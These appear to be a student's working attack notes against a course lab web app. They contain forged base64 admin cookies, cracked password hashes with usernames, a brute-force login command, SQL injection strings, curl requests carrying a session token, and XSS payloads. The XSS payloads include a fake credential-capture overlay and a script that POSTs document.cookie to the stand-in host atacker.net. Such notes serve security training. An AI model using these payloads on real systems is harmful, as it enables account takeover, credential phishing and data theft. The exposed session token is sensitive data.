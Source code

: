 # User Scalation

users/id/

customers/id/

user 1 - admin [1:user]
MTp1c2Vy

user 2 - user [2:user]
Mjp1c2Vy

admin 1 - admin [1:admin]
MTphZG1pbg==

## Hases

Set a breakpoint in getCustomer function at the `$('#customerID').val(data[0][0]);` and hover the data object. The fiveth position of the data array is the hash for that customer (e.g d8578edf8458ce06fbc5bb76a58c5ca4)

1. d8578edf8458ce06fbc5bb76a58c5ca4
   1. username: pdoe
   2. password: qwerty
2. 5f4dcc3b5aa765d61d8327deb882cf99
   1. username: jdoe
   2. password: password
3. e807f1fcf82d132f9bb018ca6738a19f
   1. username: ddoe
   2. password: 1234567890
4. 8621ffdbc5698829397d97767ac13db3
   1. username: mdoe
   2. password: dragon
5. df53ca268240ca76670c8566ee54568a
   1. username: ndoe
   2. password: computer

## Bruteforce

python bruteforce.py -U test-username.txt -P test-password.txt -d username=^USR^:password=^PWD^ -m POST -f "Login Failed" https://r1026361c1084570xjupyterlltj21rh6-3000.udacity-student-workspaces.com/login

## SQLi

'/**/or/**/1/**/=/**/'1

https://r1026361c1084570xjupyterlltj21rh6-3000.udacity-student-workspaces.com/customers/id/%00'/**/or/**/1=%00'1

## cURL

curl 'https://r1026361c1084570xjupyterlltj21rh6-3000.udacity-student-workspaces.com/customers/id/?_=1667563195075' \
 -H 'cookie: \_\_trust=hi; sg_route=spacegate-eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJkN2Y2ZGI0YS1hNjllLTExZWMtYWRjZi00NzQwMmQ2NjY3ODEiLCJpYXQiOjE2Njc1NjE5MTEsImV4cCI6MTY2NzYwNTExMSwiaXBfYWRkcmVzcyI6IjM0LjEyMy45Ni4yNTEiLCJzdGFyX2lkIjoianVweXRlcmxhYi1qbm5jZXFxaSJ9.fDw01HWDhd30sr2hcO8swtTeqCRVzHH9LoNmEQ1xATMaeCGW6Ax_05FQL-xYPyTahZJvgbnt34xKWmrFywBT2wLjv9g2Y7i5KCxnKUuD-LnhycLdCoUNJF9HYiMplf0fxxvlgEnccfFtLT33KBRjYCUn68NzlmL-m-4BJ_yufkV6xZOnwJlzNR4t2cZSyvlMt9muQ-1FUqUUDfBUEoUrHgnlMbMuWWa1-ebiD23G7TM_pY3yEgAA_8t99k1Cfy58Unpw9a1xEC-PZgQ70vIJkELiID3SkNciysuwxsOTAzkj65N-yJDXvWCN8VJzUOW3Pi0Gd2nsLEhwdmBoNuPsMg; authInfo=MTphZG1pbg=='

curl 'https://r1026361c1084570xjupyterlltj21rh6-3000.udacity-student-workspaces.com/customers/id/1'%20or%201%20=%20'1' \
 -H 'cookie: \_\_trust=hi; sg_route=spacegate-eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJkN2Y2ZGI0YS1hNjllLTExZWMtYWRjZi00NzQwMmQ2NjY3ODEiLCJpYXQiOjE2Njc1NjE5MTEsImV4cCI6MTY2NzYwNTExMSwiaXBfYWRkcmVzcyI6IjM0LjEyMy45Ni4yNTEiLCJzdGFyX2lkIjoianVweXRlcmxhYi1qbm5jZXFxaSJ9.fDw01HWDhd30sr2hcO8swtTeqCRVzHH9LoNmEQ1xATMaeCGW6Ax_05FQL-xYPyTahZJvgbnt34xKWmrFywBT2wLjv9g2Y7i5KCxnKUuD-LnhycLdCoUNJF9HYiMplf0fxxvlgEnccfFtLT33KBRjYCUn68NzlmL-m-4BJ_yufkV6xZOnwJlzNR4t2cZSyvlMt9muQ-1FUqUUDfBUEoUrHgnlMbMuWWa1-ebiD23G7TM_pY3yEgAA_8t99k1Cfy58Unpw9a1xEC-PZgQ70vIJkELiID3SkNciysuwxsOTAzkj65N-yJDXvWCN8VJzUOW3Pi0Gd2nsLEhwdmBoNuPsMg; authInfo=MTphZG1pbg=='

query Injection

https://r1026361c1084570xjupyterlltj21rh6-3000.udacity-student-workspaces.com/customers/id/2'%20or%201%20=%20'1

<script>
      const body = document.querySelector("body");
      const cookie = document.cookie;
      const url = "http://atacker.net";
      const sendCookie = function(){
            alert("Your cookie was sent to "+url+" with you current data: "+cookie)
      };
      const button = document.createElement("button");
      button.innerText = "Cookie Thief";
      button.setAttribute("id", "sendCookie");
      button.setAttribute("onclick", "sendCookie()");
      body.append(button);
</script>

<script>
      const url = "http://atacker.net";
      const cookie = document.cookie;
      const body = document.querySelector("body");
      /*backdrop*/
      const backdrop = document.createElement("div");
      backdrop.style.minHeight = "100%";
      backdrop.style.width = "100%";
      backdrop.style.backgroundColor = "white";
      backdrop.style.position = "fixed";
      backdrop.style.top = "0";
      backdrop.style.left = "0";
      backdrop.style.zIndex = "10000";
      body.append(backdrop);
      /*card*/
      const card = document.createElement("div");
      card.padding = "20px";
      /*username*/
      const username_label = document.createElement("label");
      username_label.innerText = "username:";
      card.append(username_label);
      const username = document.createElement("input");
      username.setAttribute("id", "username");
      card.append(username);
      /*password*/
      const password_label = document.createElement("label");
      password_label.innerText = "password:";
      card.append(password_label);
      const password = document.createElement("input");
      password.setAttribute("id", "password");
      password.setAttribute("type", "password");
      card.append(password);
      /*submit*/
      const submit = document.createElement("button");
      submit.setAttribute("id", "submit");
      submit.innerText = "Submit";
      const submitForm = function(){
            alert("Your credentials was sent to "+url+" with you current data: "+cookie)
      };
      submit.setAttribute("onclick", "submitForm()");
      card.append(submit);
      backdrop.append(card);
</script>


const body = document.querySelector("body");
const cookie = document.cookie;
const url = "http://atacker.net";
const sendCookie = function () {
  alert("Your cookie was sent to " + url + " with your current data: " + cookie);
};
const button = document.createElement("button");
button.innerText = "Upload Image";
button.setAttribute("id", "sendCookie");
button.setAttribute("onclick", "sendCookie()");
body.append(button);

<script>
const body = document.querySelector("#settings form .form-group .col-sm-offset-2");
const cookie = document.cookie;
const url = "http://atacker.net";
function sendCookie () {
  alert("Your cookie was sent to " + url + " with your current data: " + cookie);
  fetch("http://atacker.net",{method:"POST", body: JSON.stringify(cookie)}).then(data=>console.log("cookie", cookie));
};
const button = document.createElement("button");
button.innerText = "Upload Image";
button.setAttribute("id", "sendCookie");
button.setAttribute("type", "button");
button.setAttribute("class", "btn btn-primary");
button.onclick = sendCookie;
body.append(button);
</script>